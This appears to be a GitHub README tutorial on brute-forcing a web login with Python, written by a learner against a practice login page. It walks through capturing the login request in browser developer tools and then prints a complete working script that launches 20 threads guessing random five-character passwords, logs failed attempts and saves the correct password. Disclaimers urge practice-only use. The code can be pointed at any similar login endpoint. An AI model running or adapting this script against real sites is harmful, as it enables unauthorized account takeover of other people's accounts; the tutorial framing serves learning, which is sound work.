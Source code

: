 # Bruteforce-using-Python

A brute force attack is great way to guessing the password. Hacker are always using all possible combination to guess the correct login info. Here I'm create a python script, where I can find password from a website. In this project I know the user name which is "username" and password is 5 letter, however, I don't the password. So my job here to create a random password where I used some common combination of letter and number. Here is my plan before I start this project: 

First, Look for a vulenable website which is authorized to hack. If I can't either create a basic login website or use metasploit. 
Second, use windows instead of macOS. It have more fucntion and easy to use. Specially "Metasploit" only works on windows and linux machine.
Third, Install python in my system.
Fourth, work on a python code which can generates random letter or number. 

Disclaimer: Please don't use this in an actual website. Because this is not an ethical hacker do. You can just use it just for practice or learn. This is totally illigal, you might get charge for this. So, my advice will be use this on your created login environment or the best way to practice is "Metasploit". Which create a vulerabile website to play around it. 

Before, I'm going to start I need a login website where I can hack ethically. So I choose this website: 
![Screen Shot 2022-05-07 at 5 22 24 PM](https://user-images.githubusercontent.com/93491482/167317020-c1af716e-6a2c-4a77-982c-024160f7b75e.png)

Then click right side on your mouse then click "Inspect"
![Screenshot 2022-05-08 17 30 37](https://user-images.githubusercontent.com/93491482/167319390-229f3873-9868-40ef-839f-dad6cefa07a9.png)


On the top you will find "Network" option. If you don't click on ">>" and select on "Network" menu. After that, definetly you are not goning to see anything it will empty. 
![Screenshot 2022-05-08 17 44 02](https://user-images.githubusercontent.com/93491482/167319398-270c4900-0fd5-4a8a-bc55-afba31cd4439.png)


Now, You can use any username and password and try to login. Then the website will say "Failed to login!" and you can see in "Inspect" file, under the "Name" section it calls "confirm-login". Click and you will see there are some subcategory called - "General, Response, Response Headers". In General category you will copy the "Request URL". This is your target machine/website. [Note: to check you used username and password click on payload, you will see the username and password you just used to check the website]
![Screenshot 2022-05-08 17 50 48](https://user-images.githubusercontent.com/93491482/167319412-b7b196a8-a2cb-4eb6-91cf-5f1878067115.png)


##H2
Python Install

We need a python in our system. As I'm using windows, so I will be install python in my windows. 
Go to this website: https://www.python.org/ and Download this file. It will generate your OS device. 
![Screenshot 2022-05-08 18 01 25](https://user-images.githubusercontent.com/93491482/167319420-d88ca0c2-fa4a-4f97-9fdb-b4715aefbf6b.png)


When you are istalling python try to keep this is your C:/ drive. It will easy to use it. Trust me. 
The best way to install python just follow this: https://www.youtube.com/watch?v=bCY4D9n3Pew&t=55s youtube video it will helps a lot. 

##H2
cmd Prompt or Terminal 

Now open to cmd prompt or your terminal and go to your python install directory then type 
'''
pip install requests
'''
![59AE2604-583E-41AF-B39C-401403830C9A](https://user-images.githubusercontent.com/93491482/167319431-c96c81e2-3486-4f40-9d7f-5583e0101b29.JPG)

If you don't have pip installed in your OS device then you can use this before install requests
'''
python get-pip.py
'''
##Python Editor
in your isntalled apps search for python editor which is "IDLE(Python 3.10.64-bit)"
![Screenshot 2022-05-08 18 18 11](https://user-images.githubusercontent.com/93491482/167319459-578626b2-76a3-469b-9b4c-fbe6b73d707e.png)


After it opens it, save it as the Name You want to but at end use .py word. Like I save it in my Desktop folder and name it bruteforce.py
![Screenshot 2022-05-08 18 21 11](https://user-images.githubusercontent.com/93491482/167319470-503467bb-720c-43dc-9158-042c83fce8e4.png)


After you save it open the file. 

##Check Python Requests Code

import requests
url = " https://requestswebsite.notanothercoder.repl.co/confirm-login"

def send_request(username, password):
    data = {
        "username" : username,
        "password" : password
    }
    
    r = requests.get(url, data=data)
    print(r.text)
![Screenshot 2022-05-08 18 29 39](https://user-images.githubusercontent.com/93491482/167319479-6f06e007-3fcb-4fc4-a265-4d86f6d957ee.png)


Then click "Run" >> Run Module >> from the top bar or press f5
![Screenshot 2022-05-08 18 31 43](https://user-images.githubusercontent.com/93491482/167319483-0a15add6-5417-43fb-b086-91e5d8f78a1e.png)


Then the will be "IDLE Shell" interface will be pop-up.
![Screenshot 2022-05-08 18 32 50](https://user-images.githubusercontent.com/93491482/167319493-3a3e85ba-76c8-4be5-bfda-03904db637ce.png)


Type "send_request("hi","hi"), as I used hi as my username and password so it. will say in a blue color that "Failed to login!". If it shows "Failed to login!" that means it request is working. 
![Screenshot 2022-05-08 18 35 22](https://user-images.githubusercontent.com/93491482/167319506-0d93f829-ec8b-4494-b26c-5b67e6ce9f9b.png)



##Python Code


import requests
import random
from threading import Thread
import os

url = "https://requestswebsite.notanothercoder.repl.co/confirm-login"
username = 'username'


def send_request (username, password):
    data = {
        "username" : username,
        "password" : password
    }
    r = requests.get(url, data=data)
    print(r.text)
    return r

chars = "abcdefghijklmnopqrstuvwxyz0123456789"

def main():
    while True:
        if "correct_pass.txt" in os.listdir():
            break
        valid = False
        while not valid:
            rndpasswd = random.choices(chars, k=5)
            passwd = "".join(rndpasswd)
            file = open("tries.txt", 'r')
            tries = file.read()
            file.close()
            if passwd in tries:
                pass
            else:
                valid = True
            
        r = send_request(username, passwd)

        if 'failed to login' in r.text.lower():
            with open("tries.txt", "a") as f:
                f.write(f"{passwd}\n")
                f.close()
            print(f"Incorrect {passwd}\n")
        else:
            print(f"Correct Password {passwd}!\n")
            with open("correct_pass.txt", "w") as f:
                f.write(passwd)
            break


for x in range(20):
    Thread(target=main).start()
                                  
 
##Run Python Code
Now my whole python code is ready to use. But before I hit the run key, i have to make a file called tries.txt and it will be in the same directory as bruteforce.py. In my my case as I saved bruteforce.py file in Desktop so I create a text file in desktop. And called as tries.txt
![Screenshot 2022-05-08 18 44 03](https://user-images.githubusercontent.com/93491482/167319525-f339b4b7-24a3-42cc-826c-4f59c14e84f6.png)


Run it using f5 on your keyboard or click Run from the tab >> Run Module
![Screenshot 2022-05-08 18 40 59](https://user-images.githubusercontent.com/93491482/167319534-67aba223-0fe2-42f1-9757-8ac8c00ab8b2.png)


"IDLE Shell" file will be open automatically and it shows bunch on Incorrent password combination. It probably take 2-3 mins(tike for your tea break). Then this loop will be stop after it find the correct password.
![Screenshot 2022-05-08 17 05 55](https://user-images.githubusercontent.com/93491482/167319548-9e722e89-e232-4158-998b-cb5791fd72d1.png)

and if you open tries.txt file, you can see lots of failed password combination. Mine was 16511 wrong password. 
![Screenshot 2022-05-08 18 52 44](https://user-images.githubusercontent.com/93491482/167319566-0fbbb43a-4697-4dd5-a5a8-c98a2a818184.png)

correct password will be found in your same folder where is your bruteforce.py and .tries.txt file was created. And it will create a .txt file for you which name is correct_pass.txt. 
If you open the correct_pass.txt, you will see the correct password.
![Screenshot 2022-05-08 17 05 30](https://user-images.githubusercontent.com/93491482/167319560-8af87d61-bf32-4ef8-b347-2b13901254de.png)


#####Congratutaion!! After straight two days of work Successfully I can crack the password. 

#Note: Please, Please don't use it in actual website. It not only just demage the victim, but it will demage you. 
